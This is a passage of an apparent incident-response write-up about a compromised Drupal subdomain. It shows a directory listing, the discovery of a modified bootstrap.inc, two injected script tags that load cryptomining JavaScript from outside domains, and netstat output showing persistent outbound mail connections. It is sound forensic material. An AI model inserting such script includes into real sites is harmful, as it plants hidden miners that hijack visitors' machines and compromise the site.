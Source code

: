 By the looks of the output, there could be two folders: `subdomain` and `site`. Since `subdomain` is the most recent updated folder, we take a deeper dive on the `includes/` subfolder:

```console
user@host:/var/www/subdomain$ ls -la --full-time includes/
total 1804
drwxr-xr-x  4 www-data www-data   4096 2017-05-25 21:38:11.742771907 -0400 .
drwxr-xr-x 11 www-data www-data   4096 2018-09-03 23:52:29.924296116 -0400 ..
-rw-r--r--  1 www-data www-data  13816 2017-05-25 17:54:24.388035506 -0400 actions.inc
-rw-r--r--  1 www-data www-data  46913 2017-05-25 17:54:24.388035506 -0400 ajax.inc
-rw-r--r--  1 www-data www-data   1701 2017-05-25 17:54:24.388035506 -0400 archiver.inc
-rw-r--r--  1 www-data www-data  13664 2017-05-25 17:54:24.384035450 -0400 authorize.inc
-rw-r--r--  1 www-data www-data  17497 2017-05-25 17:54:24.388035506 -0400 batch.inc
-rw-r--r--  1 www-data www-data   2310 2017-05-25 17:54:24.380035393 -0400 batch.queue.inc
-rw-r--r--  1 www-data www-data 118488 2018-08-27 06:20:36.531461159 -0400 bootstrap.inc
-rw-r--r--  1 www-data www-data  19998 2017-05-25 17:54:24.384035450 -0400 cache.inc
-rw-r--r--  1 www-data www-data   2487 2017-05-25 17:54:24.384035450 -0400 cache-install.inc
-rw-r--r--  1 www-data www-data 302278 2017-05-25 17:54:24.384035450 -0400 common.inc
...
```

There's one particulr line that looks very suspicious (because of the last updated timetstamp and the size is larger than the others:

`-rw-r--r--  1 www-data www-data 118488 2018-08-27 06:20:36.531461159 -0400 bootstrap.inc`

While sifting through the file, near the end we found this:

```html
?><script type="text/javascript" src="//upgraderservices.cf/drupal.js"></script><?php^M
?><script type="text/javascript" src="//drupalupdates.tk/check.js"></script><?php^M
```

This looks suspicious, so we researched this piece of code (i.e., googled it), and found out that these were cryptomining scripts, as reported by this: https://twitter.com/bad_packets/status/1037416308336287744

To remediate this issue, we simply removed these scripts. However, the connections still persisted:

```console
user@host:/var/www/subdomain$ netstat -an
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 0.0.0.0:3306            0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:25              0.0.0.0:*               LISTEN
tcp        0      0 10.10.10.10:42191   98.137.157.43:25        TIME_WAIT
tcp        0      1 10.10.10.10:47567   192.64.147.176:25       SYN_SENT
tcp        0      1 10.10.10.10:48204   23.20.239.12:25         SYN_SENT
tcp        0      0 10.10.10.10:46017   67.195.228.87:25        TIME_WAIT
tcp        0      1 10.10.10.10:48211   23.20.239.12:25         SYN_SENT
tcp        0      0 10.10.10.10:50025   98.136.101.116:25       TIME_WAIT
tcp        0      1 10.10.10.10:49812   52.162.126.195:25       SYN_SENT
tcp        0      1 10.10.10.10:36409   185.53.178.8:25         SYN_SENT
tcp        0      1 10.10.10.10:48231   23.20.239.12:25         SYN_SENT
tcp        0      1 10.10.10.10:43103   207.148.248.145:25      SYN_SENT
tcp        0      1 10.10.10.10:58587   162.255.119.180:25      SYN_SENT
tcp        0    168 10.10.10.10:22      10.10.10.12:38580   ESTABLISHED
tcp        0      0 10.10.10.10:42186   98.137.157.43:25        TIME_WAIT
tcp        0      1 10.10.10.10:45291   68.178.213.61:25        SYN_SENT
tcp        0      0 10.10.10.10:37805   204.188.217.106:80      ESTABLISHED
tcp        0   2205 10.10.10.10:34654   216.120.254.206:25      ESTABLISHED
tcp        0      1 10.10.10.10:39909   184.168.131.241:25      SYN_SENT
tcp        0      1 10.10.10.10:48962   184.168.47.225:25       SYN_SENT
tcp        0      0 10.10.10.10:38409   98.136.96.73:25         TIME_WAIT
tcp        0      0 10.10.10.10:55883   216.251.100.19:25       ESTABLISHED
tcp        0      0 10.10.10.10:32777   204.188.217.106:80      ESTABLISHED
tcp        0      1 10.10.10.10:33846   159.8.40.50:25          SYN_SENT
```